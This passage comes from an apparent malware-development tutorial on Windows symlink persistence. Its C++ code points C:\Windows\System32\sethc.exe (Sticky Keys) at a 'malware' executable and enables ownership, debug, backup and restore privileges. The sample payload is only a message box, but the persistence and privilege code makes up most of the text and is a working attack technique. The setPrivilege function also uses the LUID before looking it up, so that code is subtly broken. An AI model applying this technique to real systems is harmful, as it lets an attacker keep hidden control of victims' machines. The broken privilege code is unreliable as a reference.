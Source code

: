 ```cpp
  CloseHandle(hFile);

  // create the symbolic link
  if (!CreateSymbolicLinkA((LPCSTR)legitApp, (LPCSTR)meowApp, 0)) {
    printf("error creating symlink: %d\n", GetLastError());
    return 1;
  }
  printf("symlink to meow created successfully =^..^=\n");
  return 0;
}
```

but in reality everything is a little more complicated.    

Let's say we have a "malware":    

```cpp
/*
* hack.c
* "malware" for symlink
* persistence trick
* author: @cocomelonc
* https://cocomelonc.github.io/malware/2024/07/08/malware-pers-25.html
*/
#include <windows.h>

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, 
LPSTR lpCmdLine, int nCmdShow) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}
```

And I want to create symbolic link, target legit app is:    

```powershell
const char* legitApp = "C:\\Windows\\System32\\sethc.exe";
```

First of all, we need permissions:    

```cpp
SE_TAKE_OWNERSHIP_NAME
SE_DEBUG_NAME
SE_RESTORE_NAME
SE_BACKUP_NAME
```

For this just use `setPrivilege` function:    

```cpp
// set privilege
BOOL setPrivilege(LPCTSTR priv) {
  HANDLE token;
  TOKEN_PRIVILEGES tp;
  LUID luid;
  BOOL res = TRUE;

  tp.PrivilegeCount = 1;
  tp.Privileges[0].Luid = luid;
  tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;

  if (!LookupPrivilegeValue(NULL, priv, &luid)) res = FALSE;
  if (!OpenProcessToken(GetCurrentProcess(), 
  TOKEN_ADJUST_PRIVILEGES, &token)) res = FALSE;
  if (!AdjustTokenPrivileges(token, FALSE, &tp, sizeof(TOKEN_PRIVILEGES), 
  (PTOKEN_PRIVILEGES)NULL, (PDWORD)NULL)) res = FALSE;
  printf(res ? "successfully enable %s :)\n" : 
```